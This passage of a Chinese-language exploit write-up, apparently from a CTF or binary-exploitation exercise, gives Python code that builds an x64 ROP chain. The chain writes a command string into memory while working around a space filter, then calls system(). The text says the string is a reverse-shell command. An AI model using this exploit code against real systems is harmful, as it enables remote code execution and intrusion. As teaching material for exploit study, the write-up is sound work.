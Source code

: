 ```python
def get_space_idx(payload):
	ret = []
	new_payload = ""
	length = len(payload)
	for i in xrange(0, length):
		if payload[i] == " ":
			ret.append(i)
			new_payload += "!" # ! is space + 1 in ASCII
		else:
			new_payload += payload[i]

	return ret, new_payload

def form_rop_chain(buf_addr, old_payload):
	spaces_idx, payload = get_space_idx(old_payload)
	payload += (4 - (len(payload) % 4)) * "\x00"
	ret = ""
	pop_rbp_ret = p64(0x408ed5)
	pop_rcx_ret = p64(0x418fa0)
	pop_rdi_ret = p64(0x407912)
	xchg_ret = p64(0x46e162)
	sub_rdi_cl = p64(0x462DD6)
	payload_len = len(payload)
	i = 0
	while i < payload_len:
		ret += pop_rbp_ret
		ret += payload[i:i+4]
		ret += "A"*4
		ret += pop_rcx_ret
		ret += p64(i + buf_addr)
		ret += xchg_ret
		i += 4
	for j in xrange(0, len(spaces_idx)):
		ret += pop_rcx_ret
		ret += p64(1)
		ret += pop_rdi_ret
		ret += p64(spaces_idx[j] + buf_addr)
		ret += sub_rdi_cl

	ret += pop_rdi_ret
	ret += p64(buf_addr) # rdi是参数所存放的寄存器

	ret += p64(0x406D80) # system
	ret += p64(0)
	return ret
```

其中，buf\_addr是目标内存地址，这里会给一个\.data的地址，而old\_payload是所需要写入的字符串，即前面所说的一句话反弹shell指令。

说下所遇到的坑，就是我在调的时候太久没调x64程序了，然后就犯蠢了，忘了第一个参数是rdi，把第一个参数放在了栈中。然后rdi又刚好指向最后一个空格，所以搞得我一直没发现。。。

### 利用Linux参数传递性质讲payload装入cmdline文件
